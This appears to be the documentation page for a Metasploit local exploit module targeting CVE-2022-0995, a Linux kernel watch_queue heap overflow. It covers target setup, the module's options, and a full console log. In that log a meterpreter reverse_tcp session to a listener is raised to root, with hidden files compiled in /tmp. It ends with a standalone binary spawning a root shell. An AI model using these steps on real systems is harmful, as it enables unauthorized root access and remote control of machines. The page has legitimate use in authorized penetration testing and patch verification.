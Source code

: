 ## Vulnerable Application

This module exploits a vulnerability in the Linux Kernel's watch_queue event notification system.  It relies on a heap
out-of-bounds write in Kernel memory.  The exploit fails occasionally, but it does not crash the target and can be run
multiple times

### Install

The vulnerability exists in linux kernel versions up to 5.17 rc8; this module only contains offsets for Ubuntu 21.10
kernel 5.13.0-37.  More offsets may be added later.

Install Ubuntu 21.10
apt-get install linux-image-5.13.0-37-generic
Hold shift when you reboot and select the proper kernel version

## Verification Steps

1. Make an Ubuntu target
1. Create a meterpreter or shell payload and upload it to the Ubuntu target
1. Set up a handler for the payload
1. Launch the payload as a regular user on the Ubuntu target
1. Do: `use exploit/linux/local/cve_2022_0995_watch_queue`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a root session

## Options

### COMPILE

[Auto|True|False] This selects the binary to use.  True will cause the module to upload the source
code and perform compilation on target, False will cause the module to upload a precompiled binary.
AUTO will cause the module to try compiling the exploit on the target but will fall back to the
precompiled option if a compiler cannot be found.

### DEBUG
[True|False] This selects to use source code with debug prints if uploading and compiling on disk.
TRUE will use source code with prints that assist with troubleshooting failed exploits.
The precompiled binary has no debug print statements.

### WritableDir
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Scenarios

### Ubuntu 21.10 x64

```
msf6 payload(linux/x64/meterpreter/reverse_tcp) > 
[*] Started reverse TCP handler on 10.5.135.101:4567 
[*] Sending stage (3020772 bytes) to 10.5.134.157
[*] Meterpreter session 1 opened (10.5.135.101:4567 -> 10.5.134.157:34614 ) at 2022-04-12 21:04:39 -0500

msf6 payload(linux/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : 10.5.134.157
OS           : Ubuntu 21.10 (Linux 5.13.0-37-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > background
[*] Backgrounding session 1...
msf6 payload(linux/x64/meterpreter/reverse_tcp) > use exploit/linux/local/cve_2022_0995_watch_queue 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > show options

Module options (exploit/linux/local/cve_2022_0995_watch_queue):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   COMPILE       Auto             yes       Compile on target (Accepted: Auto, True, False)
   DEBUG_SOURCE  false            no        Use source code with debug prints to help troubleshoot
   SESSION                        yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.101     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Ubuntu Linux 5.17.0-37


msf6 exploit(linux/local/cve_2022_0995_watch_queue) > set session 1
session => 1
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > set verbose true
verbose => true
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 10.5.135.101:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version array: ["5.13.0", "37", "generic"]
[*] major_version: 5.13.0
[*] minor_version: 37
[+] The target appears to be vulnerable.
[*] Version array: ["5.13.0", "37", "generic"]
[*] major_version: 5.13.0
[*] minor_version: 37
[*] Creating directory /tmp/.nILfP259
[*] /tmp/.nILfP259 created
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.nILfP259/.7BZngDv' (250 bytes) ...
[*] Launching exploit...
[*] Running: /tmp/.nILfP259/.gJKqSJssjC /tmp/.nILfP259/.7BZngDv
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3020772 bytes) to 10.5.134.157
[+] Deleted /tmp/.nILfP259/.gJKqSJssjC
[+] Deleted /tmp/.nILfP259
[*] Meterpreter session 2 opened (10.5.135.101:4444 -> 10.5.134.157:50382 ) at 2022-04-12 21:05:25 -0500
[*] 

meterpreter > sysinfo
Computer     : 10.5.134.157
OS           : Ubuntu 21.10 (Linux 5.13.0-37-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > 
```

## Notes

### Included Binaries
The binary used by this exploit `data/exploits/CVE-2022-0995/cve_2021_3493.x64.elf` can be used separately from
Metasploit.  The binary takes a single argument, the payload or executable you wish to launch as root.
```
msfuser@msfuser-virtual-machine:~$ id
uid=1000(msfuser) gid=1000(msfuser) groups=1000(msfuser),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
msfuser@msfuser-virtual-machine:~$ ./cve_2021_3493.x64.elf /bin/bash
root@msfuser-virtual-machine:~$
```
